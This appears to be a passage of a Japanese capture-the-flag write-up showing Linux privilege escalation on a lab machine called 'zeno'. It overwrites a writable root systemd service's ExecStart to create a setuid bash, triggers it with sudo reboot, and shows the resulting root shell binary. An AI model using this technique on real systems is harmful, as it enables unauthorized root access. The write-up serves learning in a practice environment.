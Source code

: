 ```sh
[edward@zeno ~]$ ls -al /usr/sbin/reboot
ls -al /usr/sbin/reboot
lrwxrwxrwx. 1 root root 16 Jul 26  2021 /usr/sbin/reboot -> ../bin/systemctl
```

rebootによる権限昇格について、ここに書かれていた。  
https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-reboot-privilege-escalation

書き込み可能なサービス

```sh
[edward@zeno bin]$ find / -writable -name "*.service" 2>/dev/null
find / -writable -name "*.service" 2>/dev/null
/etc/systemd/system/multi-user.target.wants/zeno-monitoring.service
/etc/systemd/system/zeno-monitoring.service
```

元のサービス定義。

```sh
[edward@zeno bin]$ cat /etc/systemd/system/zeno-monitoring.service
cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

この行を書き換える。

```sh
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash; chmod +xs /home/edward/bash'
```

reboot！

```sh
[edward@zeno images]$ sudo /usr/sbin/reboot
```

エクスプロイト成功！

```sh
[edward@zeno images]$ ls -al /home/edward
ls -al /home/edward
total 964
drwxr-xr-x. 3 root root      139 Oct 30 11:02 .
drwxr-xr-x. 3 root root       20 Jul 26  2021 ..
lrwxrwxrwx. 1 root root        9 Jul 26  2021 .bash_history -> /dev/null
-rw-r--r--. 1 root root       18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 root root      193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 root root      231 Apr  1  2020 .bashrc
drwxr-xr-x. 2 root root       29 Sep 21  2021 .ssh
-rw-------. 1 root root      699 Jul 26  2021 .viminfo
-rwsr-sr-x. 1 root root   964536 Oct 30 11:02 bash
-rw-r-----. 1 root edward     38 Jul 26  2021 user.txt
```
